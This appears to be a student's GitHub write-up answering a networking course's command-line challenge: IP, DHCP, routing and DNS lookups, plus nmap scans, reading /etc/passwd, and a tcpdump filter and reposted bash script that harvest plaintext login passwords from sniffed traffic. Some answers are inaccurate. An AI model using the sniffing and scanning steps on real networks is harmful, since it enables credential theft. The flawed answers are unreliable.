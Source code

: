 
A better readable version

http://s3378797.github.io/2368-Network-Fundamentals-Applications/

2368-Network-Fundamentals-Applications


Network Commands Challenge 


These are the answers to the challenge 2 questions, they were researched and answered by me. They could contain erroes, so please only use them as references and use at your own risks. :p


1. Find the IP address the computer you are currently using.

ifconfig


2. Find the IP address the computer you are currently using, plus MAC address, plus whether DHCP is turned on.

Plug in another network card see if the card can be assigned an ip address.


3. Release and restore a DHCP connection for the LAN.

Release DHCP addr: dhclient -r (eth0); connect to internet again

Restore DHCP addr: dhclient -4; ifconfig;


4. Display the host name of the computer & be able to use the GUI to change it.

hostname; hostname newname; or etc/hostname


5. Check for basic IP connectivity between two computers by name and IP address.

nmap -sP 192.168.201.1-254; or ; arp -a;


6. Quickly access one or two other computers using a command, now display the MAC to IP address of those computers.

arp dstIPaddress


7. Show the MAC address of the host without using ipconfig.

netstat -i;


8. Show what shared resource are available on the host.

smbtree

smbclient -L localhost

net rpc share


9. Show what user accounts are available on the host.

cat /etc/passwd

cat /etc/passwd | grep -v nologin


10.Show what hosts are currently connected to a computer.

netstat -tn

netstat -tn 2>/dev/null


11.Find out which ports on your host are connected to applications. Connect the browser to some external web page before running the appropriate command.

netstat -tulpn


12.Someone claims there is a lot of corrupted packets on the network. How can this be checked?

netstat -s | grep segments

netstat -s


13.Find all other hosts available on the network.

nmap -sP 192.168.201.1-254; or ; arp -a;


14.Select one host and find what ports they have open.

nmap -T5 192.168.201.*


15.Find the path to the domain name server.

dig +trace google

dig +trace +short google


16.Show the address of the gateway.

route -n

netstat -r -n


17.Find the path of routers to www.google.com ( note this may be a problem within RMIT).

tcptraceroute google.com


18.One host on the network has gone berserk and is flooding the network with packets. How would you detect which host is responsible? Use ping with continuous send to simulate this.

Below is the wireshark filter command.
 
(not icmp.resp_in and icmp.type==8)


19.Some fool is using Telnet which does not encode passwords. How can you spy on the Telnet transactions?

Found two ways to do it. 


tcpdump port http or port ftp or port smtp or port imap or port pop3 -l -A | egrep -i 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user ' --color=auto --line-buffered -B20


    #!/bin/bash

    #
    # tcptelnet.sh - extract password and session information tcpdump
    #
    # 2008 - Mike Golvach - eggi@comcast.net
    #
    # Creative Commons Attribution-Noncommercial-Share Alike 3.0 United States License
    #

    login_or_pwd=0
    sess_info=0

    while read line
    do
            echo $line| grep "Last" >/dev/null 2>&1
            ll_yes_or_no=$?
            if [ $ll_yes_or_no -eq 0 ]
            then
                    echo
                    login_or_pwd=0
                    continue
            fi
            echo $line| grep "gin:" >/dev/null 2>&1
            l_yes_or_no=$?
            if [ $l_yes_or_no -eq 0 ]
            then
                    echo
                    echo "Possible login ID to follow: "
                    login_or_pwd=1
                    sess_info=0
                    continue
            fi
            echo $line| grep "sword" >/dev/null 2>&1
            p_yes_or_no=$?
            if [ $p_yes_or_no -eq 0 ]
            then
                    echo
                    echo "Possible password to follow: "
                    login_or_pwd=1
                    sess_info=0
                    continue
            fi
            if [ $login_or_pwd -eq 1 ]
            then
                    echo $line|awk '{ if ( $NF ~ /UUUUU$/ ) print $NF }'|sed 's/^.*\(.\)UUUUU$/\1/'|sed 's/^U/\./' |xargs -ivar echo "var\c"
                    continue
            fi
            if [ $login_or_pwd -eq 0 -a $sess_info -eq 0 ]
            then
                    echo
                    echo "Possible session info to follow:"
                    sess_info=1
            fi
            if [ $sess_info -eq 1 ]
            then
                    echo $line|awk '{ if ( $NF ~ /UUUUU$/ ) print $NF }'|sed 's/^.*\(.\)UUUUU$/\1/'|sed 's/^U/\./' |xargs -ivar echo "var\c"
                    continue
            fi
    done
    echo
    exit 0

    
20.A ping to 192.168.0.2 works but a ping to the machine's name "reds_machine" fails.
What could be wrong?


Hosts File

The host name in the Hosts file or in the command is misspelled.

The IP address for the host name in the Hosts file is invalid or incorrect.


DNS Server


    The client contacts the DNS name server with a recursive query for name.reskit.com. The server must now return the answer or an error message.

    The DNS name server checks its cache and zone files for the answer, but doesn't find it. It contacts a server at the root of the Internet (a root DNS server) with an iterative query for name.reskit.com.

    The root server doesn't know the answer, so it responds with a referral to an authoritative server in the .com domain.

    The DNS name server contacts a server in the .com domain with an iterative query for name.reskit.com.

    The server in the .com domain does not know the exact answer, so it responds with a referral to an authoritative server in the reskit.com domain.

    The DNS name server contacts the server in the reskit.com domain with an iterative query for name.reskit.com.

    The server in the reskit.com domain does know the answer. It responds with the correct IP address.

    The DNS name server responds to the client query with the IP address for name.reskit.com.

